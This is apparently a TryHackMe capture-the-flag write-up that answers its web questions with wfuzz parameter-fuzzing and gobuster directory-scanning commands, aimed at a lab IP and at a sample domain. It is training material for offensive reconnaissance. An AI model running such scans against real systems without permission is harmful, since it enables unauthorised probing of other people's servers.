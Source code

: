 # [Web Exploit] Santa's watching

IP: 10.10.152.216

### Given the URL "http://shibes.xyz/api.php", what would the entire wfuzz command look like to query the "breed" parameter using the wordlist "big.txt" (assume that "big.txt" is in your current directory)
- `wfuzz -c -z file,big.txt -d “breed=FUZZ” -u http://shibes.xyz/api.php`

### Use GoBuster (against the target you deployed -- not the shibes.xyz domain) to find the API directory. What file is there?
- `wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/big.txt`
- `gobuster dir -u 10.10.152.216 -w big.txt -x "php"`
- `site-log.php`

### Fuzz the date parameter on the file you found in the API directory. What is the flag displayed in the correct post?
- `wget https://assets.tryhackme.com/additional/cmn-aoc2020/day-4/wordlist`
- `wfuzz -c -z file,date_wordlists_tryhackme.txt -u http://10.10.152.216/api/site-log.php?date=FUZZ`
- :) You can find the flag there 